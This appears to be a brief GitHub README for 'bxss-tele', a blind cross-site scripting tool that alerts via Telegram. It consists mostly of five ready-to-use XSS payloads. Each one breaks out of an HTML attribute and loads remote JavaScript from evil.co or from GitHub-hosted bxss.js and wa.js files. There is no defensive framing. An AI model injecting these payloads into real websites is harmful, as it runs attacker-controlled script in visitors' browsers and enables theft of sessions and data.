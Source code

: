 # bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>```

```"><script src=http://tucommenceapousser.github.io/bxss/bxss.js></script>```

```"><script src="https://raw.githubusercontent.com/tucommenceapousser/bxss/trkn/bxss.js">```

```"><script>$.getScript("//evil.co/bxt.js")</script>```

```"><script src=http://tucommenceapousser.github.io/bxss/wa.js></script>```
